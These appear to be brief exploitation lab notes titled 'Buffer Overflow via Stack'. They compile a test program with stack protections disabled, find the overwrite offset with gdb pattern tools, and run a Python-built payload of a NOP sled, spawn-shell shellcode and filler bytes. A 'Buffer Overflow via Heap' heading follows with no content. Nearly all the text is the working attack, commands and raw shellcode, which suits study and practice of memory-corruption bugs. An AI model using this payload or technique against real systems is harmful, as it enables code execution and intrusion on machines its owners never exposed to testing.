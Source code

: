 # Buffer Overflow via Stack
gcc -o stackOverflow stackOverflow.c -fno-stack-protector -z execstack
gdb overflow
pattern_create 550 pattern
run $(cat pattern)
pattern_search
run $(python -c 'print "\x90"*450+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x41"*43+"b"*6')
x/200x
run $(python -c 'print "\x90"*450+"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"\x41"*43+"b"*6')


# Buffer Overflow via Heap
